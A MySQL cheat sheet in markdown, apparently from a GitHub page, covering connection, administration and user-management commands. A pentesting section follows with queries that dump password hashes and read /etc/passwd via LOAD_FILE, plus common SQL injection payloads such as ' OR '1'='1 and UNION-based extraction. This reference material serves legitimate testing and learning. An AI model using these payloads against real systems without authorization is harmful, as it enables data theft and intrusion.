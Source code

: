 # MySQL Cheat Sheet

## Connect to MySQL

### Using command line

```
mysql -u root -p
```

## Connect to a remote server

```
mysql -h <host> -u <user> -p
```

## Basic Commands

### Show all databases

```
SHOW DATABASES;
```

## Use a database
```
USE database_name;
```

## Show all tables

```
SHOW TABLES;
```

## Describe a table

```
DESCRIBE table_name;
```

## Show current user

```
SELECT USER();
```

## User Management

### Show users

```
SELECT user, host FROM mysql.user;
```

## Create a user

```
CREATE USER 'user'@'host' IDENTIFIED BY 'password';
```

## Grant privileges

```
GRANT ALL PRIVILEGES ON dbname.* TO 'user'@'host';
FLUSH PRIVILEGES;
```

## Change root password

```
ALTER USER 'root'@'localhost' IDENTIFIED BY 'newpassword';
```

## Data Extraction (useful in Pentesting)

### Dump all users and password hashes

```
SELECT user, password FROM mysql.user;
```

## Read files from the server (requires FILE privilege)

```
SELECT LOAD_FILE('/etc/passwd');
```

## Common SQL Injection Payloads

### Basic injection

```
' OR '1'='1
```

## Union-based

```
' UNION SELECT null, database(), user(), version() --
```

## Extract table names

```
' UNION SELECT table_name, null FROM information_schema.tables WHERE table_schema='target_db' --
```

## Dump a Table to File (requires permissions)

```
SELECT * FROM users INTO OUTFILE '/tmp/users.txt';
```




























































